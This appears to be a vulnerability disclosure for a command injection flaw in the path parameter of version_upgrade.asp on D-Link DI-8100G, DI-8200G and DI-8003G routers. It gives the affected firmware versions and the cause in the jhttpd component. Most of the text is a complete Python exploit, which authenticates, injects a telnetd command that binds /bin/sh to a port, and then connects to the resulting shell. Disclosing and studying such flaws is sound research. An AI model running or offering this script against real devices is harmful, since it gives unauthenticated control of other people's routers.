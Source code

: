 **Vendor of the products:** D-Link

**Affected Device:** D-Link DI-8100G、DI-8200G、DI-8003G

**Version:** DI_8100G-17.12.20A1

DI_8200G-17.12.20A1

DI_8003G-19.12.10A1

**Firmware Download:** http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8100G

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200G

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8003G

 

**Vulnerability Description:** A command injection vulnerability was discovered in D-Link DI_8100G-17.12.20A1、DI_8200G-17.12.20A1 and DI_8003G-19.12.10A1, triggered by the path parameter in version_upgrade.asp. Attackers can exploit this vulnerability by crafting malicious packets to execute arbitrary commands, thereby gaining full control of the target device.

 

# POC:

**request:**

![image-20250711105153382](assets/image-20250711105153382.png)



# Vulnerability Effect:

It can be observed that the router receives the request and successfully executes the command. The attacker can execute arbitrary commands.

![image-20250711104645693](assets/image-20250711104645693.png)

 

# Vulnerability Cause:

The issue resides in the jhttpd component. In jhttpd, the program invokes the sub_433F7C function to handle requests related to version_upgrade.asp. The program first retrieves the user-input path parameter via httpd_get_parm. Subsequently, the program uses the sprintf function to concatenate the value of the path parameter into the variable v16, which is ultimately executed by the jhl_system function. Due to the lack of security checks on the input data, attackers can execute arbitrary commands and fully control the device by constructing malicious parameters.

![img](assets/wps11.jpg) 

 

# EXP:

```python
#!/usr/bin/env python3
import requests
import re
import os
import time
import argparse
from urllib.parse import quote
from getpass import getpass

requests.packages.urllib3.disable_warnings()

def parse_args():
    """Parse command-line arguments"""
    parser = argparse.ArgumentParser(description='D-link Exploit POC')
    parser.add_argument('-i', '--ip', default='192.168.0.1',
                       help='Target IP address (default: 192.168.0.1)')
    parser.add_argument('-u', '--username', default='admin',
                       help='Username (default: admin)')
    parser.add_argument('-p', '--password',
                       help='Password (will prompt if not provided)')
    parser.add_argument('-P', '--port', type=int, default=80,
                       help='HTTP port (default: 80)')
    parser.add_argument('-t', '--telnet-port', type=int, default=333,
                       help='Telnet port to open (default: 333)')
    return parser.parse_args()

def get_password(args):
    """Get password securely"""
    if args.password:
        return args.password
    return getpass(f"Enter password for {args.username} (default: admin): ") or "admin"

def build_url(ip, port, path):
    """Construct full URL"""
    return f"http://{ip}:{port}{path}"

def login(args):
    """Authenticate and get session cookies"""
    url = build_url(args.ip, args.port, "/login.cgi")
    headers = {
        "Host": f"{args.ip}:{args.port}",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Content-Type": "application/x-www-form-urlencoded",
        "Connection": "keep-alive",
    }

    data = {
        "user": args.username,
        "password": args.password
    }

    try:
        response = requests.post(url, headers=headers, data=data, verify=False)
        print(f"\n[+] Login Status: {response.status_code}")
        
        cookies = response.cookies.get_dict()
        if 'Set-Cookie' in response.headers:
            gw_cookie = re.search(r'gw_userid=([^;]+)', response.headers['Set-Cookie'])
            if gw_cookie:
                cookies['gw_userid'] = gw_cookie.group(1)
        return cookies
        
    except Exception as e:
        print(f"[-] Login failed: {str(e)}")
        return None

def execute_command(args, cookies):
    """Exploit command injection"""
    command = f"$(telnetd%20-l%20/bin/sh%20-p%20{args.telnet_port})"
    url = build_url(args.ip, args.port, f"/version_upgrade.asp?path={command}")
    

    headers = {
        "Host": f"{args.ip}:{args.port}",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "keep-alive",
        "Cookie": f"userid={args.username}; gw_userid={cookies.get('gw_userid', '')}",
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }

    try:
        print(f"\n[+] Sending exploit request: {url}")
        response = requests.get(url, headers=headers, verify=False, allow_redirects=False)
        
        print(f"[+] Exploit status: {response.status_code}")
        if response.headers.get('Set-Cookie'):
            print(f"[+] Response Set-Cookie: {response.headers.get('Set-Cookie')}")
        
        return True
    except Exception as e:
        print(f"[-] Exploit failed: {str(e)}")
        return False

def connect_telnet(ip, port):
    """Establish telnet connection"""
    print(f"\n[+] Attempting to connect via telnet to {ip}:{port}...")
    print("[+] If connection fails, try manually:")
    print(f"    telnet {ip} {port}")
    time.sleep(2)
    os.system(f"telnet {ip} {port}")

def main():
    args = parse_args()
    args.password = get_password(args)

    print(f"\n[+] Target: {args.ip}:{args.port}")
    print(f"[+] Credentials: {args.username}:{'*' * len(args.password)}")
    print(f"[+] Will open telnet on port: {args.telnet_port}")

    cookies = login(args)
    if not cookies:
        return

    if execute_command(args, cookies):
        connect_telnet(args.ip, args.telnet_port)

if __name__ == "__main__":
    main()
```



 

 

 